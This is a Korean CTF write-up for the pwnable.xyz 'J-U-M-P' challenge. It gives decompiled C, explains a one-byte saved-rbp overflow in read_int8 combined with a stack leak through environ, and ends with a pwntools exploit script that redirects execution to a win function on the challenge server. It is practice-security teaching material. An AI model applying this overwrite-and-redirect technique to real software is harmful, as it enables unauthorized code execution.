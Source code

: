 ```yaml
---
title: "[pwnable.xyz]J-U-M-P"
date: 2020-1-30
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int8 v3; // [rsp+2Fh] [rbp-11h]
  __int64 v4; // [rsp+30h] [rbp-10h]
  void *v5; // [rsp+38h] [rbp-8h]

  setup();
  v4 = gen_canary();                            // canary
  puts("Jump jump\nThe Mac Dad will make you jump jump\nDaddy Mac will make you jump jump\nThe Daddy makes you J-U-M-P\n");
  v5 = &loc_BA0;
  while ( 1 )
  {
    print_menu();
    printf("> ", argv);
    v3 = read_int8();
    switch ( v3 )
    {
      case 2u:
        v5 = (void *)(signed int)((unsigned int)v5 ^ v3);
        break;
      case 3u:
        argv = (const char **)environ;
        printf("%p\n", environ);
        break;
      case 1u:
        if ( v4 == canary )
          JUMPOUT(__CS__, v5);
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

read_int8함수에서 buf 크기가 0x20인데 0x21만큼 받으므로 sfp 1바이트를 조작할 수 있다.

```c
int read_int8()
{
  char buf; // [rsp+0h] [rbp-20h]

  read(0, &buf, 33uLL);
  return atoi(&buf);
}
```

3번 메뉴로 stack address leak이 가능하고 1번 메뉴에서 v5로 뛸 수 있으므로 v5만 변조해주면 win함수를 호출할 수 있다.

main의 rbp를 옮겨서 v5위치에 v3를 만들어 win함수의 하위 1바이트로 변경해주고 canary가 걸려있으니까 rbp를 다시 되돌려준 후 JUMP 뛰면 win함수로 뛰게된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30012)
win = 0xB77
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sla('>','3')
env = int(p.recvline().strip(),16)
log.info('environ : {}'.format(hex(env)))
rbp = env - 248
log.info('rbp : {}'.format(hex(rbp)))

sa('>','A'*32+p8((rbp&0xff)+9))
sa('>',str(win&0xff))
sa('>','A'*32+p8(rbp&0xff))
sa('>','1')

p.interactive()
```

